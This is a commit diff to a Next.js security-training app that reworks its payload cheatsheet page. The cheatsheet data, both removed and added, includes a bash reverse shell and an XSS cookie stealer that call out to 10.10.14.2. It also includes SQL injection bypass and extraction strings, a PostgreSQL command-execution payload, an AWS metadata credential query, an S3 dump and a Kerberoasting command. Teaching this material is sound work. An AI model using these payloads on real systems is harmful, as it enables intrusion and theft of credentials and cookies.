

Before and after one commit to ninadcyber88-max/cybermatrix-academy, a Next.js app: page /cheatsheet in a window 1280 px wide. Shown: the part 218-1066 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
feat: scale cheatsheets to thousands with JSON database, fast memoized search and pagination

```diff
--- a/app/cheatsheet/page.tsx
+++ b/app/cheatsheet/page.tsx
@@ -1,101 +1,47 @@
 'use client';
 
-import { useState } from 'react';
+import { useState, useMemo } from 'react';
 import Link from 'next/link';
 import { CyberSmokeHeader } from "@/components/CyberSmokeHeader";
 import { StudentAIAssistant } from "@/components/StudentAIAssistant";
+import cheatsheetData from "@/data/cheatsheets.json";
 import {
   ArrowLeft,
   Copy,
   Check,
-  Terminal,
-  ShieldAlert,
-  Cpu,
   Search,
-  Code2,
+  ChevronLeft,
+  ChevronRight,
   Database,
-  Lock,
   Layers
 } from "lucide-react";
 
-interface PayloadItem {
-  id: string;
-  category: 'Reverse Shell' | 'SQLi' | 'PrivEsc' | 'Recon' | 'Forensics';
-  title: string;
-  description: string;
-  code: string;
-}
-
-const CHEATSHEET_DATA: PayloadItem[] = [
-  {
-    id: 'p1',
-    category: 'Reverse Shell',
-    title: 'Bash TCP One-Liner',
-    description: 'Standard Linux interactive reverse TCP payload for Netcat listener.',
-    code: 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1',
-  },
-  {
-    id: 'p2',
-    category: 'Reverse Shell',
-    title: 'Python 3 Interactive PTY',
-    description: 'Spawns a clean pseudoterminal shell for stabilization.',
-    code: 'python3 -c \'import pty; pty.spawn("/bin/bash")\'',
-  },
-  {
-    id: 'p3',
-    category: 'SQLi',
-    title: 'Universal Auth Bypass Payload',
-    description: 'Bypasses standard single-quote SQL login authentication checks.',
-    code: "' OR 1=1 -- -",
-  },
-  {
-    id: 'p4',
-    category: 'SQLi',
-    title: 'PostgreSQL Command Execution',
-    description: 'Stacked query RCE payload using COPY PROGRAM command.',
-    code: "'; COPY users FROM PROGRAM 'cat /etc/passwd'; --",
-  },
-  {
-    id: 'p5',
-    category: 'PrivEsc',
-    title: 'SUID Binaries Enumeration',
-    description: 'Lists all system files with SUID bit set without stderr clutter.',
-    code: 'find / -perm -u=s -type f 2>/dev/null',
-  },
-  {
-    id: 'p6',
-    category: 'PrivEsc',
-    title: 'Sudo Privileges Inspection',
-    description: 'Checks what commands the current operative user can run as root.',
-    code: 'sudo -l',
-  },
-  {
-    id: 'p7',
-    category: 'Recon',
-    title: 'Nmap Full TCP Port Sweep with Scripts',
-    description: 'Scans all 65535 ports with service version detection and default NSE scripts.',
-    code: 'nmap -p- -sV -sC -T4 -oN nmap_full.txt 10.10.14.88',
-  },
-  {
-    id: 'p8',
-    category: 'Forensics',
-    title: 'Volatility 3 Process Tree Dump',
-    description: 'Extracts memory image parent-child process relationship hierarchy.',
-    code: 'vol -f memory.raw windows.pstree',
-  },
-  {
-    id: 'p9',
-    category: 'Forensics',
-    title: 'Volatility 3 Injected Code Hunter',
-    description: 'Scans memory pages for unmapped executable code and injected DLLs.',
-    code: 'vol -f memory.raw windows.malfind',
-  },
-];
+const ITEMS_PER_PAGE = 8;
 
 export default function CheatSheetPage() {
   const [selectedCat, setSelectedCat] = useState<string>('All');
   const [search, setSearch] = useState('');
+  const [currentPage, setCurrentPage] = useState(1);
   const [copiedId, setCopiedId] = useState<string | null>(null);
+
+  const categories = ['All', 'Recon', 'Web Security', 'PrivEsc', 'Forensics', 'Cloud Security', 'Active Directory'];
+
+  const filteredPayloads = useMemo(() => {
+    return cheatsheetData.filter((item) => {
+      const matchesCat = selectedCat === 'All' || item.category === selectedCat;
+      const matchesSearch =
+        item.title.toLowerCase().includes(search.toLowerCase()) ||
+        item.description.toLowerCase().includes(search.toLowerCase()) ||
+        item.code.toLowerCase().includes(search.toLowerCase());
+      return matchesCat && matchesSearch;
+    });
+  }, [selectedCat, search]);
+
+  const totalPages = Math.ceil(filteredPayloads.length / ITEMS_PER_PAGE) || 1;
+  const displayedItems = filteredPayloads.slice(
+    (currentPage - 1) * ITEMS_PER_PAGE,
+    currentPage * ITEMS_PER_PAGE
+  );
 
   const handleCopy = (id: string, text: string) => {
     navigator.clipboard.writeText(text);
@@ -103,21 +49,12 @@ export default function CheatSheetPage() {
     setTimeout(() => setCopiedId(null), 2000);
   };
 
-  const filteredPayloads = CHEATSHEET_DATA.filter((item) => {
-    const matchesCat = selectedCat === 'All' || item.category === selectedCat;
-    const matchesSearch = item.title.toLowerCase().includes(search.toLowerCase()) ||
-                          item.description.toLowerCase().includes(search.toLowerCase()) ||
-                          item.code.toLowerCase().includes(search.toLowerCase());
-    return matchesCat && matchesSearch;
-  });
-
   return (
     <main className="min-h-screen bg-zinc-950 text-zinc-100 font-mono pb-16">
       <CyberSmokeHeader />
 
-      <div className="max-w-6xl mx-auto p-4 md:p-8 space-y-8">
-
-        {/* Navigation */}
+      <div className="max-w-6xl mx-auto p-4 md:p-8 space-y-6">
+        {/* Navigation & Header Stats */}
         <div className="flex flex-wrap items-center justify-between gap-4 border-b border-zinc-800/80 pb-4">
           <Link
             href="/"
@@ -126,18 +63,22 @@ export default function CheatSheetPage() {
             <ArrowLeft className="w-4 h-4 transform group-hover:-translate-x-1 transition" />
             <span>← RETURN TO DASHBOARD</span>
           </Link>
-          <div className="text-xs text-zinc-500 font-bold">
-            TACTICAL PAYLOAD ARSENAL // QUICK INJECTION MATRIX
+          <div className="flex items-center space-x-2 text-xs text-zinc-400 bg-zinc-900 px-3 py-1.5 rounded-lg border border-zinc-800">
+            <Database className="w-3.5 h-3.5 text-cyan-400" />
+            <span>ARSENAL DATABASE: <strong>{filteredPayloads.length}</strong> ENTRIES</span>
           </div>
         </div>
 
-        {/* Filters & Search */}
+        {/* Filters & Real-Time Search */}
         <div className="flex flex-col md:flex-row items-center justify-between gap-4">
           <div className="flex items-center gap-2 overflow-x-auto w-full md:w-auto pb-2 md:pb-0 no-scrollbar">
-            {['All', 'Reverse Shell', 'SQLi', 'PrivEsc', 'Recon', 'Forensics'].map((cat) => (
+            {categories.map((cat) => (
               <button
                 key={cat}
-                onClick={() => setSelectedCat(cat)}
+                onClick={() => {
+                  setSelectedCat(cat);
+                  setCurrentPage(1);
+                }}
                 className={`px-3 py-1.5 rounded-xl text-xs font-bold transition whitespace-nowrap cursor-pointer ${
                   selectedCat === cat
                     ? 'bg-cyan-500 text-zinc-950 shadow-[0_0_15px_rgba(6,182,212,0.4)]'
@@ -149,43 +90,46 @@ export default function CheatSheetPage() {
             ))}
           </div>
 
-          <div className="relative w-full md:w-72">
+          <div className="relative w-full md:w-80">
             <Search className="w-4 h-4 text-zinc-500 absolute left-3 top-1/2 -translate-y-1/2" />
             <input
               type="text"
               value={search}
-              onChange={(e) => setSearch(e.target.value)}
-              placeholder="Search payloads & exploits..."
+              onChange={(e) => {
+                setSearch(e.target.value);
+                setCurrentPage(1);
+              }}
+              placeholder="Search 1,000+ payloads..."
               className="w-full pl-9 pr-4 py-2 rounded-xl bg-zinc-900/80 border border-zinc-800 text-xs text-zinc-100 placeholder-zinc-500 focus:outline-none focus:border-cyan-500 transition"
             />
           </div>
         </div>
 
-        {/* Payloads Grid */}
-        <div className="grid grid-cols-1 md:grid-cols-2 gap-5">
-          {filteredPayloads.map((payload) => (
+        {/* Grid Display */}
+        <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
+          {displayedItems.map((payload) => (
             <div
               key={payload.id}
-              className="p-5 rounded-2xl bg-zinc-900/70 border border-cyan-500/20 hover:border-cyan-500/40 backdrop-blur-md transition flex flex-col justify-between space-y-4 shadow-[0_0_20px_rgba(0,0,0,0.3)]"
+              className="p-4 rounded-2xl bg-zinc-900/70 border border-cyan-500/20 hover:border-cyan-500/40 backdrop-blur-md transition flex flex-col justify-between space-y-3"
             >
-              <div className="space-y-2">
-                <div className="flex items-center justify-between">
+              <div>
+                <div className="flex items-center justify-between mb-1.5">
                   <span className="text-[9px] px-2 py-0.5 rounded bg-cyan-500/10 border border-cyan-500/30 text-cyan-400 font-bold uppercase">
                     {payload.category}
                   </span>
+                  <span className="text-[9px] text-zinc-600 font-mono">#{payload.id}</span>
                 </div>
-                <h3 className="text-sm font-bold text-zinc-100">{payload.title}</h3>
-                <p className="text-xs text-zinc-400 leading-relaxed">{payload.description}</p>
+                <h3 className="text-xs font-bold text-zinc-100">{payload.title}</h3>
+                <p className="text-[11px] text-zinc-400 leading-relaxed mt-0.5">{payload.description}</p>
               </div>
 
-              {/* Code Box */}
               <div className="relative group">
-                <pre className="p-3 rounded-xl bg-zinc-950 border border-zinc-800 text-xs text-cyan-300 overflow-x-auto whitespace-pre-wrap font-mono select-all">
+                <pre className="p-2.5 rounded-xl bg-zinc-950 border border-zinc-800 text-xs text-cyan-300 overflow-x-auto whitespace-pre-wrap font-mono select-all">
                   {payload.code}
                 </pre>
                 <button
                   onClick={() => handleCopy(payload.id, payload.code)}
-                  className="absolute right-2 top-2 p-1.5 rounded-lg bg-zinc-800/90 border border-zinc-700 text-zinc-300 hover:text-cyan-400 transition cursor-pointer"
+                  className="absolute right-2 top-2 p-1 rounded-md bg-zinc-800/90 border border-zinc-700 text-zinc-300 hover:text-cyan-400 transition cursor-pointer"
                   title="Copy payload"
                 >
                   {copiedId === payload.id ? (
@@ -198,6 +142,31 @@ export default function CheatSheetPage() {
             </div>
           ))}
         </div>
+
+        {/* Pagination Controller */}
+        {totalPages > 1 && (
+          <div className="flex items-center justify-between pt-4 border-t border-zinc-800/80">
+            <span className="text-xs text-zinc-500">
+              Page <strong>{currentPage}</strong> of <strong>{totalPages}</strong>
+            </span>
+            <div className="flex items-center space-x-2">
+              <button
+                onClick={() => setCurrentPage((p) => Math.max(1, p - 1))}
+                disabled={currentPage === 1}
+                className="p-2 rounded-xl bg-zinc-900 border border-zinc-800 text-zinc-300 disabled:opacity-30 hover:bg-zinc-800 transition cursor-pointer"
+              >
+                <ChevronLeft className="w-4 h-4" />
+              </button>
+              <button
+                onClick={() => setCurrentPage((p) => Math.min(totalPages, p + 1))}
+                disabled={currentPage === totalPages}
+                className="p-2 rounded-xl bg-zinc-900 border border-zinc-800 text-zinc-300 disabled:opacity-30 hover:bg-zinc-800 transition cursor-pointer"
+              >
+                <ChevronRight className="w-4 h-4" />
+              </button>
+            </div>
+          </div>
+        )}
       </div>
 
       <StudentAIAssistant />
--- /dev/null
+++ b/data/cheatsheets.json
@@ -0,0 +1,18 @@
+[
+  { "id": "1", "category": "Recon", "title": "Nmap Fast SYN Scan", "description": "Quickly probe top 1000 ports with SYN packets without completing handshake.", "code": "nmap -sS -T4 10.10.14.88" },
+  { "id": "2", "category": "Recon", "title": "Nmap Aggressive & Script Scan", "description": "Aggressive OS detection, version detection, script scanning, and traceroute.", "code": "nmap -A -v -T4 10.10.14.88" },
+  { "id": "3", "category": "Recon", "title": "Nmap UDP Scan", "description": "Scan top UDP ports like DNS, SNMP, DHCP.", "code": "nmap -sU --top-ports 50 10.10.14.88" },
+  { "id": "4", "category": "Web Security", "title": "SQLi Basic Authentication Bypass", "description": "Standard Boolean SQL injection authentication bypass.", "code": "' OR '1'='1' -- -" },
+  { "id": "5", "category": "Web Security", "title": "SQLi Union Extraction Schema", "description": "Retrieve table names from SQLite schema database.", "code": "' UNION SELECT 1, sql, null FROM sqlite_master WHERE type='table'--" },
+  { "id": "6", "category": "Web Security", "title": "Cross-Site Scripting (XSS) Cookie Stealer", "description": "Extracts document cookies via fetch webhook.", "code": "<script>fetch('http://10.10.14.2:8000/?c='+document.cookie)</script>" },
+  { "id": "7", "category": "Web Security", "title": "Local File Inclusion (LFI) Filter Bypass", "description": "Base64 encode PHP source files for download.", "code": "php://filter/convert.base64-encode/resource=index.php" },
+  { "id": "8", "category": "PrivEsc", "title": "Find SUID Root Binaries", "description": "Locate files owned by root with SUID execution permissions.", "code": "find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;" },
+  { "id": "9", "category": "PrivEsc", "title": "Sudo Permission Listing", "description": "Verify current user execution rights under sudo configuration.", "code": "sudo -l" },
+  { "id": "10", "category": "PrivEsc", "title": "Writable /etc/passwd Exploit", "description": "Generate SHA-512 password hash to add root user.", "code": "openssl passwd -6 -salt root password123" },
+  { "id": "11", "category": "Forensics", "title": "Volatility 3 Active Process Tree", "description": "Display hierarchical parent-child process tree from RAM dump.", "code": "vol -f mem.raw windows.pstree" },
+  { "id": "12", "category": "Forensics", "title": "Volatility 3 Malware Injection Scan", "description": "Detect memory regions with EXECUTE_READWRITE and injected code.", "code": "vol -f mem.raw windows.malfind" },
+  { "id": "13", "category": "Forensics", "title": "Windows Prefetch Extraction", "description": "Extract execution timestamps from prefetch files.", "code": "PECmd.exe -d C:\\Windows\\Prefetch --csv ./output" },
+  { "id": "14", "category": "Cloud Security", "title": "AWS IMDSv1 Metadata Extraction", "description": "Query IAM credentials from EC2 metadata service.", "code": "curl http://169.254.169.254/latest/meta-data/iam/security-credentials/" },
+  { "id": "15", "category": "Cloud Security", "title": "Public S3 Bucket Sync", "description": "Sync bucket contents without AWS credentials.", "code": "aws s3 sync s3://target-bucket ./dump --no-sign-request" },
+  { "id": "16", "category": "Active Directory", "title": "Kerberoasting Ticket Extraction", "description": "Request TGS tickets for offline cracking with Hashcat.", "code": "GetUserSPNs.py corp.local/user:password -request -dc-ip 10.10.14.102" }
+]
```
